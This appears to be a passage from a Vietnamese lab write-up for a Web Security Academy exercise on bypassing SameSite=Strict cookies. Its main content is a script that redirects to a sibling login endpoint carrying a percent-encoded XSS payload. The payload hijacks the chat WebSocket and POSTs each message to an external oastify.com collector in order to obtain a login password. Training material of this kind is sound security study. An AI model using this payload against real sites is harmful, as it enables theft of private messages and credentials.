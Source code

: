 ==> để bypass samesite strict chúng ta cần tận dụng endpoint này

![image](https://hackmd.io/_uploads/ryNriTbd1g.png)

```javascript!
<script>
    document.location = "https://cms-0ad1002103f1da5a811af7c00035002d.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%64%31%30%30%32%31%30%33%66%31%64%61%35%61%38%31%31%61%66%37%63%30%30%30%33%35%30%30%32%64%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%34%73%78%69%68%70%32%79%31%6c%68%6a%37%32%67%6a%32%39%75%66%67%78%6e%34%78%76%33%6d%72%68%66%36%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

![image](https://hackmd.io/_uploads/H19556Wdye.png)

- lấy mật khẩu đăng nhập và solve lab

![image](https://hackmd.io/_uploads/HyRAq6-_kl.png)

<img  src="https://3198551054-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FVvHHLY2mrxd5y4e2vVYL%2Fuploads%2FF8DJirSFlv1Un7WBmtvu%2Fcomplete.gif?alt=media&token=045fd197-4004-49f4-a8ed-ee28e197008f">
